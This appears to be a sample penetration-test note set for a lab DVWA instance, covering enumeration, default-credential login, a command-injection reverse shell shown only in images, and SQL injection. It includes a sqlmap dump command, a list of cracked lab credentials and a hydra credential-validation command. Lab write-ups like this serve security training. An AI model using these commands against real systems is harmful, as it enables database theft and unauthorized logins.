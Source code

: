# Introduction

This document contains some sample notes from a simulated test of a DVWA instance.  Follow the [[Sample instructions]] for a sample workflow of how to slice these notes up into the way you'd like them to appear in the report.

# Target - `dvwa.pwn.me` 172.16.0.9/24

Scope of test is limited to the single subdomain/virtual host `dvwa.pwn.me` on host `172.16.0.9/24`. 

## Enumeration

![](../img/dvwa-nmap-scan.png)

![](../img/redirect-to-login-page.png)
Accessing `http://dvwa.pwn.me` takes us via redirect to `/login.php`.

![](../img/login-with-default-creds.png)

We can login with `admin:password`.

![](../img/https-not-supported.png)
HTTPS is configured on the host, but the target site is not accessible through HTTPS.  

# Foothold - reverse shell
## Testing command injection
![](../img/command-injection.png)
![](../img/receiving-shell-as-default-apache-user.png)
# Database - SQL injection vulnerability
![](../img/database-sql-injection-vulnerability.png)

![](../img/captured-sqli-request-for-use-with-sqlmap.png)



## Database dump leads to other users
![](../img/database-dump-with-cracked-webapp-user-credentials.png)

```bash
sqlmap -r dvwa.req --dump --batch
```
- `-r`: use the specified request file
- `--dump`: dump everything reachable
- `--batch`: assume default answers for `sqlmap` prompts; i.e. fully automatic

Using `sqlmap`, we were able to dump the entire DVWA user table, including cracked password hashes, shown below.

```
admin:password
gordonb:abc123
1337:charley
pablo:letmein
smithy:password
```

## Validating user creds by authenticating to webapp

![](../img/validating-user-credentials-with-hydra.png)
```bash
hydra -C creds dvwa.pwn.me  http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

Using `hydra`, we validated the credentials dumped from the DVWA users table.


# Flags

## `user`
![](../img/user-flag2.png)

As the `www-data` user, discovered flag at `/home/user/.flag2.txt`.
Readable only by `user`